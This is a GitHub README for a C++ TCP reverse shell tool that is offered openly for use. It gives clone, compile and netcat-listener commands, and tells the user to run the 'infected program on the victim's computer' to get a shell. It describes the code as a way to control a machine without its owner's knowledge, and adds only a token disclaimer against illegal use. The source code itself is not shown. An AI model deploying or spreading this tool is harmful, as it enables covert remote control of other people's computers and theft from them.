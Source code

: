 <h1 align="center">
    <a href="https://github.com/Untouchable17/Reverse-TCP-Shell">
        <img src="https://i.ibb.co/Q9kQqZ5/bruh.png" width="700">
    </a>
</h1>

<p align="center">
<a href="https://github.com/Untouchable17/Reverse-TCP-Shell"><img src="https://img.shields.io/static/v1?label=version&message=1.0.0&color=red"></a>
<a href="https://github.com/Untouchable17/Reverse-TCP-Shell/issues?q=is:issue+is:closed"><img src="https://img.shields.io/github/issues-closed/Untouchable17/Reverse-TCP-Shell?color=orange"></a>
</p>

<h1 align="center">TCP Reverse Shell C++</h1>

<b>TCP reverse shell</b> is a type of shell in which the attacker creates a connection from the target machine back to the attacker's machine, rather than the attacker connecting directly to the target. In this script, the attacker typically sets up a listener on a specified port on their own machine, and the victim machine is then compromised with malware that establishes a connection to the attacker's listener. Once the connection is established, the attacker has access to a command prompt on the victim machine, and can execute commands and interact with the system as if they were sitting at the machine itself. This technique is commonly used in cyber attacks and penetration testing
<h2 align="center">Installation</h2>

<p align="center">Installing and using program process:</p>

<p align="center">Execute all commands on behalf of the superuser and set your machine ip and port in files</p>

1. Download or clone this repository.
```
git clone https://github.com/Untouchable17/Reverse-TCP-Shell
```
2. Make the file executable with the chmod +x command
```
chmod +x install.sh
```
<br/>
3. Run the bash script `install.sh`

<br>This script will automatically download and install all the necessary dependencies, compile the programs, and then offer you to choose 1 of 3 start options


> Other Method: Manual Installation
1. Downloading or cloning this GitHub repository.
```
git clone https://github.com/Untouchable17/TCP-Reverse-Shell
```
2. Update system packages and install libpcap
```
apt-get update && apt-get upgrade -y
apt-get install libpcap-dev -y
```
3. Compile files
```
g++ ReverseShell.cpp -o ReverseShell.o
g++ SecureTCPConnection.cpp -o SecureTCPConnection.o
```
4. Run one of the program
```
./ReverseShell.o or ./SecureTCPConnection.o
```
<br>You can add the correct path to global like this: `export PATH="$PATH:$(pwd)"` and then you can run the program by just entering their name ReverseShell.o or SecureTCPConnection.o

<h2 align="center">How to use</h2>
<p>At first, start listening on the hacker's computer (or on your own) to the port you specified in the file (by default, port 4444), and then run the compiled infected file on the victim's computer</p>

1. Starting port listening
```
nc -nlvp SET_PORT (ex. 4444)
```
2. Execute the infected program on the victim's computer
3. Congratulations, now you have a shell
4. If interactivity has not appeared, execute this command
```
script -a /dev/null
```

```
change shell: chsh -s /bin/{shell}
```

```
show list shells: cat /etc/shells
```

<h2 align="center">A little explanation of the code and a teaser</h2>

- This program is a type of software that allows an attacker to gain remote access to a computer or network without the knowledge or permission of the system owner.

- This code creates a TCP socket that connects to the specified server and port. Then the child process is created using the fork() call. The child process runs the /bin/bash shell, which allows an attacker to execute arbitrary commands on a remote system.

- In the parent process, commands are read from a remote client via a socket. The received commands are passed to the child process for execution using the open() call, and the results of executing commands are sent back to the client via the socket. The parent process constantly waits for commands from the client and executes them until the client closes the connection.

- In general, this code can be used for illegal access to a computer or network, so its use for illegal purposes is prohibited.

## Contact Developer


    Telegram:           @secdet17
    Group:              t.me/secdet_team
    Email:              tylerblackout17@gmail.com

